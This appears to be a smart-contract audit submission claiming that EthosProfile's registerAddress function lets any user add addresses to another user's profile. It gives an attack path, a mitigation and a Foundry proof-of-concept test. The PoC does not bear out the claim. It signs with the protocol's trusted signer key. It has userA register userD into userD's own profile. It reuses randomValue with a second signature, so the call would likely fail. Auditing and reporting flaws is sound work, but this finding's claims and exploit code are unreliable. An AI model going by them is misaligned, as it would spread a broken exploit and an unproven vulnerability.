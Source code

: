 Micro Garnet Gecko

High

# Lack of Ownership Validation in registerAddress Allows Unauthorized Address Registration

### Summary

The [registerAddress function](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosProfile.sol#L373) currently permits any user to add addresses to an existing profile without validating ownership or obtaining approval from the profile owner onchain. This oversight allows unauthorized users to add addresses to someone else’s profile, and it can even be the profile owner address, potentially resulting in addresses being added without the profile owner’s consent. Additionally, the profile owner is unable to [remove themselves from the list of addresses](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosProfile.sol#L433), while the profile owner account has already been added when [creating a profile](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosProfile.sol#L196), limiting their control over their profile.

### Root Cause

In [registerAddress](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosProfile.sol#L373), there is no validation check to ensure that only the profile owner or an approved delegate can add addresses to the profile.

### Internal pre-conditions

The protocol need to check offchain for validation without an onchain validation during the function call.

### External pre-conditions

_No response_

### Attack Path

1. Profile Creation: A legitimate user (USER A) creates a profile using createProfile.
2. Another legitimate user (USER B) creates a profile using createProfile.
3. USER B can use registerAddress to add any address to the USER A profile without the USER A consent, Including USER A self account.
4. USER B can continue adding more addresses to the USER A profile, potentially filling it to the maximum allowed number of addresses. This restricts the profile owner from adding legitimate addresses or managing their invites effectively.


### Impact

USER A (Profile Owner) gradually loses control of their profile’s address list as more unauthorized entries are added to fill the available invite slots, disrupting the Profile Owner’s ability to invite others as they intended.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "lib/forge-std/src/Test.sol";
import "../../contracts/EthosProfile.sol";
import "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol";

contract EthosProfileTest is Test {
    EthosProfile public implementation;
    EthosProfile public proxy;
    address public userA;
    address public userB;
    address public userC;
    address public userD;
    address public owner;
    address public admin;
    uint256 public expectedSignerPrivateKey = 11111111111;
    address public expectedSigner;
    address public signatureVerifier;
    address public contractAddressManager;
    address public weth;

    function setUp() public {
        // Setup accounts
        owner = makeAddr("owner");
        admin = makeAddr("admin");
        expectedSigner = vm.addr(expectedSignerPrivateKey);//makeAddr(expectedSignerPrivateKey);
        signatureVerifier = makeAddr("signatureVerifier");
        contractAddressManager = makeAddr("contractAddressManager");
        weth = makeAddr("weth");
        userA = makeAddr("userA");
        userB = makeAddr("userB");
        userC = makeAddr("userC");
        userD = makeAddr("userD");

        // Deploy implementation
        implementation = new EthosProfile();

        // Deploy proxy
        bytes memory initData = abi.encodeWithSelector(
            EthosProfile.initialize.selector,
            owner,
            admin,
            expectedSigner,
            signatureVerifier,
            contractAddressManager,
            weth
        );

        ERC1967Proxy proxyContract = new ERC1967Proxy(
            address(implementation),
            initData
        );
        proxy = EthosProfile(address(proxyContract));

        vm.startPrank(owner);
        proxy.inviteAddress(userA);
        proxy.inviteAddress(userB);
    }

    function testRegisterAddressWithSignature() public {
        vm.startPrank(userA);
        proxy.createProfile(1);

        vm.startPrank(userB);
        proxy.createProfile(1);

        // admin add invite for user A
        vm.startPrank(admin);
        proxy.addInvites(userA, 8);
        proxy.addInvites(userB, 8);

        vm.startPrank(userA);
        proxy.inviteAddress(userC);

        vm.startPrank(userB);
        proxy.inviteAddress(userD);

        vm.startPrank(userD);
        proxy.createProfile(3);
        (, , , uint256 profileId) = proxy.profileStatusByAddress(userD);

        uint256 randomValue = 12345;  // Random number for entropy
        uint256 randomValue2 = 123457;  // Random number for entropy

        // // Step 1: Compute the message hash using `_keccakForRegisterAddress`
        bytes32 messageHash = keccak256(abi.encodePacked(userD, profileId, randomValue));

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(expectedSignerPrivateKey, messageHash); 
        bytes memory signature = abi.encodePacked(r, s, v);

        bytes32 messageHash2 = keccak256(abi.encodePacked(userD, profileId, randomValue2));
        ( v,  r,  s) = vm.sign(expectedSignerPrivateKey, messageHash2); 
        bytes memory signature2 = abi.encodePacked(r, s, v);

        // Step 3: Ensure the test contract can validate the signature and register the address
        vm.startPrank(userA);
        proxy.registerAddress(userD, profileId, randomValue, signature);
        proxy.registerAddress(userD, profileId, randomValue, signature2);
        // vm.stopPrank();
    }
}
```
![Screenshot 2024-10-30 at 18 05 34](https://github.com/user-attachments/assets/be6e89bb-247d-4f50-86ca-51a2de264e93)


### Mitigation

Introduce ownership or delegate checks in the registerAddress function to verify that [addressStr](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosProfile.sol#L374) is approved by the profile’s owner.